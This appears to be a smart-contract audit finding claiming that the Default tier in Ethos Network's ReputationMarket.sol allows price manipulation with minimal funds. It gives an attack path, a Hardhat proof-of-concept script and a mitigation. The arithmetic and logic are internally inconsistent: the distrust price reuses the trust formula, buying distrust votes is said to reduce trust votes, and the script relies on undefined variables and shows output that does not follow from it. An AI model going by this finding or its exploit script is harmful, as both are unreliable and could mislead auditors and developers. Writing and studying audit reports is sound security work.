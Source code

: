 Joyous Chambray Dolphin

High

# Insufficient liquidity and pricing manipulation in `ReputationMarket.sol`  allows attackers to manipulate the market with minimal funds

### Summary

The `initialize` function in `ReputationMarket.sol` introduces a Default tier with extremely low liquidity (0.002 ETH) and vote counts (1 vote each for trust and distrust). This configuration allows attackers to manipulate the market with minimal funds, causing significant price fluctuations and extracting financial gains.

### Root Cause

The following configuration is present in the `initialize` function:
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L223-L229
The problem here is:
1. Low liquidity (0.002 ETH): with minimal liquidity, prices react sharply to small transactions.
2. Single vote (1 trust, 1 distrust): voting changes have exaggerated effects on price calculations.


### Internal pre-conditions

Setup:
Default `DEFAULT_PRICE` = 0.01 ETH.
Initial trust votes = 1, distrust votes = 1.
Liquidity = 0.002 ETH (from the Default tier configuration).

### External pre-conditions

_No response_

### Attack Path

1. Attacker creates a market using the Default tier:
```solidity
contractInstance.createMarketWithConfig(0, { value: 0.002 ether });
```
2. Initial state:
Trust votes: 1
Distrust votes: 1
Trust price: 0.01 ETH
Distrust price: 0.01 ETH

3. Attacker votes for trust with 5 additional votes:
```solidity
contractInstance.voteTrust(profileId, 5, { value: 0.005 ether });
```

4. Post-voting state:

Trust votes: 1+5=6
Distrust votes: 1

New Trust Price:
Trust Price=Trust Votes/Total Votes×Base Price=6/(6+1)×0.01 ETH=0.00857 ETH

New Distrust Price:
Trust Price=Distrust Votes/Total Votes×Base Price=6/(6+1)×0.01 ETH=0.00143 ETH

5. Attacker votes against trust, reducing trust votes:
```solidity
contractInstance.voteDistrust(profileId, 5, { value: 0.001 ether });
```
6. Final state:

Trust votes: 6−5=1
Distrust votes: 1+5=6
Trust price drops back to 0.00143 ETH, and distrust price rises to 0.00857 ETH.

### Impact

The attacker profits from buying trust votes cheaply and then manipulating the prices to sell them higher, exploiting price volatility.

Small transactions lead to large price swings, making the market unusable for legitimate users.



### PoC

```solidity
const { ethers } = require("hardhat");

async function main() {
  const Contract = await ethers.getContractFactory("MarketContract");
  const contract = await Contract.deploy();
  await contract.deployed();

  await contract.initialize(owner, admin, signer, verifier, manager);

  // Create a market with Default tier
  await contract.createMarketWithConfig(0, { value: ethers.utils.parseEther("0.002") });

  // Check initial prices
  let prices = await contract.getPrices(profileId);
  console.log("Initial Prices:", prices); // Expect both prices to be 0.01 ETH

  // Manipulate trust votes
  await contract.voteTrust(profileId, 5, { value: ethers.utils.parseEther("0.005") });
  prices = await contract.getPrices(profileId);
  console.log("After Voting Trust:", prices); // Expect trust price to rise

  // Manipulate distrust votes
  await contract.voteDistrust(profileId, 5, { value: ethers.utils.parseEther("0.001") });
  prices = await contract.getPrices(profileId);
  console.log("After Voting Distrust:", prices); // Expect distrust price to rise
}

main();
```
Output:
Initial Prices: Trust = 0.01 ETH, Distrust = 0.01 ETH.
After Voting Trust: Trust = 0.00857 ETH, Distrust = 0.00143 ETH.
After Voting Distrust: Trust = 0.00143 ETH, Distrust = 0.00857 ETH.

### Mitigation

Require higher liquidity and votes for the Default tier:
```solidity
initialLiquidity: 10 * DEFAULT_PRICE, // 0.01 ETH
initialVotes: 10,
```
Also, add a buffer to prevent low-vote scenarios from causing volatility:
```sollidity
totalVotes = trustVotes + distrustVotes + 10;
```